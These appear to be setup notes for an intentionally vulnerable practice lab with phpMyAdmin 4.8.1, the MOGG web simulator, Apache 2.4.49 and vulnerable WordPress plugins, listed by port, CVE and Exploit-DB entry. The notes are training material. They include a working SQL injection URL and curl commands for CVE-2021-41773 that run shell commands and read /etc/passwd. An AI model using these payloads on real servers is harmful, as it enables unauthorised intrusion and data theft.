 # phpmyadmin 4.8.1 & MTGASS MOGG Web Simulator

1. **tcp 8511**
2. Hidden dir (MTGASS MOGG in dir **events/**)
3. password attack (phpmyadmin): [cve-2018-12613 authenticated RCE in phpmyadmin 4.8.1](https://github.com/vulhub/vulhub/tree/master/phpmyadmin/CVE-2018-12613) - [EDB-ID 45020](https://www.exploit-db.com/exploits/45020)
4. SQLi (MTGAS MOGG): [EDB-ID 45717 MTGAS MOGG Web Simulator Script - SQL Injection](https://www.exploit-db.com/exploits/45717)

```
Check the config file. See error below:

Failed to read configuration file!

This usually means there is a syntax error in it, please check any errors shown below.
```
```
MTGAS MOGG Web Simulator Script - SQL Injection

# Exploit Title: MOGG web simulator Script - SQL Injection
# Date: 2018-10-29
# Exploit Author: Meisam Monsef - meisamrce@gmail.com - @meisamrce -
@dorsateam
# Vendor Homepage: https://github.com/spider312/mtgas
# Version: All Version


Exploit :
http://server/play.php?id=99999'+[SQL Command]+#
http://server/play.php?id=99999%27+and+extractvalue(1,concat(0x3a,user(),0x3a))%23
```

# Apache 2.4.49

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password 
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# phpmyadmin w/WordPress
1. **tcp 8515** 
2. Weak admin password
3. Perhaps store some credential in database to exploit authenticated RCE in phpmyadmin 4.8.1?
